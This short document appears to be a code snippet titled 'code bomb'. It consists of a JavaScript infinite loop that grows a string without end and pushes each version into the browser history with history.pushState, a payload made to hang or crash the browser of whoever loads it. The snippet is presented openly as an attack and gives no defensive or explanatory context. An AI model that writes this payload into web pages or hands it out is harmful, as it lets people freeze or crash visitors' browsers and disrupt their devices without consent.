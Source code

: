 # code bomb
```js
let total = '';
for (let i = 0; true; i++)
{
    total = total + i.toString();
    history.pushState(0, 0, total);
}
```

